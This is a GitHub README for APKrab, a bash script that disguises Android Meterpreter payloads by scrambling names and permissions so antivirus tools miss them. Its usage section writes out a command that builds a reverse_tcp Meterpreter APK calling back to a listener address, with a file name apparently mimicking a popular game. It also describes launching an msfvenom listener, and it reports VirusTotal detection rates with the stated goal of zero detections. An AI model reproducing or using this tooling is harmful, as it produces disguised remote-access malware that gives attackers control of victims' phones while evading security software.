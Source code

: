 # Dependencies
To use APKrab you first need to install apktool and default-jdk

# APKrab
APKrab is a dummy bash script to obfuscate android meterpreter by mixing names and permissions in AndroidManifest.xml and other files and directories
!(https://cdn.rawgit.com/whoisML/APKrab/master/image/vmplayer_R3kyjZHvkA.jpg)

# Usage
First we must give execution permissions with chmod +x APKrab.sh
Then we can do for example:
./APKrab.sh -p android/meterpreter/reverse_tcp -H 10.0.0.16 -P 7777 -o amon-us.apk

APKrab also has default options we can use them with:
./APKrab.sh -g
!(https://cdn.rawgit.com/whoisML/APKrab/master/image/vmplayer_ZW2I2Xya03.jpg)

At the end APKrab will ask to generate a msfvemon listener if so then it will ask to launch it
!(https://cdn.rawgit.com/whoisML/APKrab/master/image/vmplayer_Icsbs5mvuD.jpg)

# virustotal results (DONT UPLOAD YOUR SAMPLES TO VIRUSTOTAL)
In this example we hit 16/63 in virustotal so hope with the time and your modifications we can hit 0 flagged
!(https://cdn.rawgit.com/whoisML/APKrab/master/image/vmplayer_Wdeanc6BeL.jpg)
